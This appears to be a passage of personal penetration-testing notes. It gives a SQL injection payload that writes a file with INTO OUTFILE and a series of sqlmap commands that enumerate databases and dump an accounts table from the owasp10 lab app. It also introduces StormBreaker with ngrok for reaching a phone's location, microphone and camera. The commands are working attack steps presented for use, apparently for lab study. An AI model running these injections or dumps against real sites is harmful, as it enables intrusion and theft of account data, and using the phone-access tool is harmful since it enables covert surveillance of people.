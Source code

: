 How to writes files
```sql
' union select null, "some text", null,null,null into outfile "/tmp/some-text-file.txt"
```
- Usually it doesn't allow you to write files but it's worth checking.

---

**SQLMap - Automatic SQL Injection Tool** 

Start sqlmap by typing the name in a Kali terminal. or attack the site by providing it the URL:
```sh
sqlmap -u <"URL">
```
- You want to enter the full path to what you want it to attack, for example the login page.

Get a list of commands
```sh
sqlmap --help
```

Run a scan for everything it can find
```sh
sqlmap -u <"URL"> -a
```
- This tool is covered, in depth, in other sections of this obsidian file.

Retrieve databases
```sh
sqlmap -u <"URL"> --dbs
```

Retrieve tables using one of the database names found in the previous command
```sh
sqlmap -u <"URL"> --tables -D owasp10
```

View account table
```sh
sqlmap -u <"URL"> --colums -D owasp10 -t accounts
```

Dump the column information
```sh
sqlmap -u <"URL"> -D owasp10 -t accounts --dump
```

---

**Mobile Penetration Testing - Accessing Location, Microphone, and Camera**

Tools: StormBreaker https://github.com/ultrasecurity/Storm-Breaker

Start stormbreaker after following the installation guide on github. I wont add the installation steps since they may change over time.
```sh
sudo python3 st.py
```

This tool requires ngrok to be installed which you can find online. Unfortunately, you have to make an account to authenticate. On the setup and installation tab it gives you a an authtoken for your config file. Now you can open the ngrok command that stormbreaker gives you in a new terminal tab.
